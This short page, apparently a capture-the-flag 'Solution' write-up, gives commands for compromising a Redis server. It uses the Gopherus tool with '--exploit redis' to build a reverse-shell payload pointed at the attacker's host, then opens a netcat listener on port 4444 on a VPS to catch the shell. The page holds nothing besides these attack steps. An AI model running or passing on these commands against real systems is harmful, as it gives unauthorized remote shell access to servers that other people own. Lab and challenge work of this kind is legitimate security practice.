 # Solution

```
https://github.com/tarunkant/Gopherus
```

```
python2 Gopherus.py --exploit redis

type: reverseshell
ip: <your host>

------- in your vps server
nc -lnvp 4444
```
